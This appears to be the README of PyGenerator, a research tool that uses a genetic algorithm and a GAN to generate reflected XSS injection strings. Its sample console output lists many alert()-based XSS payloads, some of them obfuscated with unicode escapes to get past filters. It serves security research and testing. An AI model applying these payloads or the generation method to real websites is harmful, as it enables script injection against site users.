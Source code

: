 ## PyGenerator using Genetic Algorithm and Generative Adversarial Networks.

PyGenerator can generate injection codes for web app vulnerabilities.  
There are many different types of web app vulnerabilities, but PyGenerator has targeted reflected XSS in this version.  
ex) `<iframe/onload=alert();>size=<command`, `<video><source onerror=javascript:alert();>kind=`

[more info](http://www.mbsd.jp/blog/takaesu_index.html)

## Description

PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

1. Generation of injection codes using GA.
2. Augment injection codes using GAN.

#### 1. Generation of injection codes using GA.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)).  
Gene list is minimum components of HTML and JavaScript.  
ex) <img/, src=, xxx, onerror=, alert();, />, etc.  

And, you execute `ga_main.py` as the following.  

```
Generator>python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

・・・

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
・・・
```
In this result, a few injection codes are generated by GA.  
Injection codes are represented using combination of gene numbers (5 dimensional vector).  
ex) <149, 2, 180, 206, 164>,  

#### 2. Augment injection codes using GAN.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)) and the train data generated by GA (ex. [train data](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/signature/xss_list.csv)).  

And, you execute `gan_main.py` as the following.  

```
Generator>python gan_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

(14176L, 'train samples')
('Number of batches:', 443)
epoch: 0, batch: 0, g_loss: 0.704642, d_loss: 0.711084
[ 115.  118.  103.  112.  100.] : </label></meter></track></keygen></font>
[ 124.   99.  127.  106.  101.] : </progress><font/</select></button><track 
[ 112.   91.  107.  106.   90.] : </keygen></ins><fieldset </button><ins/
[ 115.  102.  142.   78.  125.] : </label><track/type="text/x-scriptlet" <meta/<select 
[ 121.  106.  107.  111.   95.] : </output></button><fieldset <keygen/<basefont 

・・・

epoch: 79, batch: 117, g_loss: 2.015308, d_loss: 0.561763
[   0.  182.    1.    5.   21.] : <script>onerror=\u0061lert();</script><isindex/<iframe/
[   0.  191.    1.    3.   14.] : <script>onload=alert();</script><video><source/<img/
[   0.  193.    1.    3.   12.] : <script>onmouseover=alert();</script><video><source/<option/
[   0.  181.    1.    3.   22.] : <script>onerror=javascript:alert();</script><video><source/</iframe>
[   0.  183.    2.    5.   28.] : <script>onerror=al\u0065rt();<video><source <isindex/<svg/
・・・
```
In this result, many injection codes are generated by GAN.  

If you change the content of the gene list, you may be able to generate various data!!  
Enjoy!!  

## Requirement libraries
* pandas
* requests
* selenium

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3
* numpy 1.13.1
* Keras 1.1.1

## Inquiry
[takaesu235@gmail.com](<mailto:takaesu235@gmail.com>)

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Author

[Isao Takaesu](https://github.com/13o-bbr-bbq)
